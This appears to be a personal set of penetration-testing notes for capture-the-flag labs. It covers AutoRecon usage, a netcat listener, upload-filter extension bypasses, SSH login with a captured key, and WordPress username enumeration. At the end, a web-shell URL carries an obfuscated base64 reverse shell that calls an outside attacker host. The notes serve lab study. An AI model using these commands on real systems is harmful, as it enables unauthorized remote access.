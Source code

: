 



.........................................................................................................................................................................
AUTORECON
```
The way to run using sudo
sudo env "PATH=$PATH" autorecon [OPTIONS]
sudo $(which autorecon) [OPTIONS]

```

.........................................................................................................................................................................

https://www.youtube.com/watch?v=ImrLbomFYA0&ab_channel=TomPeppercorn
.........................................................................................................................................................................

![](../Attachements/Pasted%20image%2020250218130751.png)
.........................................................................................................................................................................

https://www.youtube.com/watch?v=sL-GUmdQ-nk&t=214s&ab_channel=MarcoSerafini
.........................................................................................................................................................................

https://www.youtube.com/watch?v=O_fSvoSJ-ac&ab_channel=killAndy

.........................................................................................................................................................................

usr/share/webshell
.........................................................................................................................................................................


```bash
nc -lvp 1234 => netcat listner
```
![](../Attachements/Pasted%20image%2020250106141352.png)

ok
![](../Attachements/Pasted%20image%2020250218130640.png)
.........................................................................................................................................................................

Few supported extension wordlist in web application
- .php
- .php3
- .php4
- .php5
- .php6
- .phtml
- 

![](../Attachements/Pasted%20image%2020250106141526.png)
Capture the request and bruteforce extension to find what and all are supported.
.........................................................................................................................................................................

![](../Attachements/Pasted%20image%2020250217140711.png)
............................................................................................................................................................................


............................................................................................................................................................................
command to use id_rsa to login using ssh.
Change the id_rsa permission first before executing the command.
```
ssh -i id_rsa cactus@10.10.52.92
```

............................................................................................................................................................................

In wordpress if you try to login:
![](../Attachements/Pasted%20image%2020250223221902.png)
This will tell password is incorrect or username is incorrect:
If user name is wrong, it tells you.
A way to enumurate username

............................................................................................................................................................................

```
Execute this command in browser to have command executed
http://www.smol.thm/wp-admin/index.php?cmd=echo YnVzeWJveCBuYyAxMC4xNC45MC4yMzUgNDQ0NSAtZSAvYmluL2Jhc2g= | base64 -d | bash
```
http://www.smol.thm/wp-admin/index.php?cmd=echo YnVzeWJveCBuYyAxMC4xNC45MC4yMzUgNDQ0NSAtZSAvYmluL2Jhc2g= | base64 -d | bash

............................................................................................................................................................................



